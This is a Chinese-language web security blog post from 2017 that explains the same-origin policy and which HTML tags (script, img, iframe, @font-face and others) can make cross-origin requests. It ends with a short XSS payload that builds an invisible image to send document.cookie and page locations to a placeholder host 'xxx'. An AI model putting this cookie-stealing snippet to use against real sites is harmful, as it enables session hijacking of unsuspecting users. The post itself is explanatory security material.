 ```yaml
---
title: 浅谈跨域
date: 2017-11-11 21:00:30
tags: Web安全
toc: true
---
```


> 本文首发圈子  
> What matters in life is not what happens to you but what you remember and how you remember it.   
生命中真正重要的不是你遭遇了什么，而是你记住了哪些事，又是如何铭记的

### 0x00 同源 
---

一般由 域名或ip 端口 协议决定 同源策略(SOP)

影响范围包括 ：HTTP 请求目标，XMLHttpRequest ，XSLT，XBL等

同源策略没有禁止script等标签执行，而是禁止读写response内容

对于Chrome firefox 从https到http跨域请求会被拦截的

一般 js/css/jpg/png等不受SOP限制

例如  a.com下加载b.com/b.js,b.js源为a.com

### 0x01 xss src标签
---
增加 html 标签 可以跨域 这些带有"src"属性的标签每次加载的时候,实际上是由浏览器发起一个get请求
但不能读写返回内容，即response

```
<script src=""> 
<img> 
<iframe>
<video> 
<audio>
<embed>
<object data="">
<applet code="">
<link rel="stylesheet" href="">
<frame>
```

@font-face 引入跨域字体  (来自sn00py表格的姿势)
```
  <style type="text/css">
    @font-face {
      src: url("http://developer.mozilla.org/@api/deki/files/2934/=VeraSeBd.ttf");
    }
  </style>
```
等标签可以跨域请求资源，例如
```
img =newImage();
img.src="http://xxx/index.php?do=api&amp;id={projectId}&amp;cookie="+ escape(document.cookie) +"&amp;location="+ escape(window.location.href) +"&amp;top="+ escape(top.location.href) +"&amp;address="+ escape(l);
img.width = 0;
img.height = 0;
```
